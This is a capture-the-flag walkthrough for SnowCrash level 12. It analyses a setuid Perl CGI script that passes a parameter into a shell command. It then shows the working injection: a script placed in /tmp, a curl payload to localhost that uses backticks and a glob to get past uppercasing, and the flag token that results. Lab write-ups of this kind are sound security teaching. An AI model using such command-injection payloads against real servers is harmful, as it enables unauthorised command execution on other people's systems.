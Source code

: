 # Level12

## Hint

Seems like a bash command is executed in the perl code, perhaps with a bit of tampering you could exploit that.

## Answer

Let's check our current directory:
```
level12@SnowCrash:~$ ll
total 16
dr-xr-x---+ 1 level12 level12  120 Mar  5  2016 ./
d--x--x--x  1 root    users    340 Aug 30  2015 ../
-r-x------  1 level12 level12  220 Apr  3  2012 .bash_logout*
-r-x------  1 level12 level12 3518 Aug 30  2015 .bashrc*
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl*
-r-x------  1 level12 level12  675 Apr  3  2012 .profile*
```

Let's first read the contents of the `level12.pl` file:
```perl
level12@SnowCrash:~$ cat level12.pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

Alright seems like there is will be a server on port 4646, also the program will accept two parameters: `x` and `y`. If we read a bit more we notice that a bash command is executed and that our first parameter `x` is executed in that bash command, however the `x` parameter is modified to uppercase and then stripped of its whitespace. So it won't be that easy to exploit it:
```
level12@SnowCrash:~$ curl localhost:4646/?x='`getflag > /tmp/flag`'
.level12@SnowCrash:~$cat /tmp/flag'
cat: /tmp/flag: No such file or directory
```

Indeed the server actually executes \``GETFLAG>/TMP/FLAG`\` instead of what we typed, so it won't execute the command we wanted. However we can just create a file which will execute a bash script:
```
level12@SnowCrash:~$ echo 'getflag > /tmp/flag' > /tmp/EXPLOIT
level12@SnowCrash:~$ chmod +x /tmp/EXPLOIT
```

Then instead of writing the path to that file *(it won't find our file because the path will be turn into uppercase characters)*, we can just use a `*` to match any path:
```
level12@SnowCrash:~$ curl localhost:4646/?x='`/*/EXPLOIT`'
..level12@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
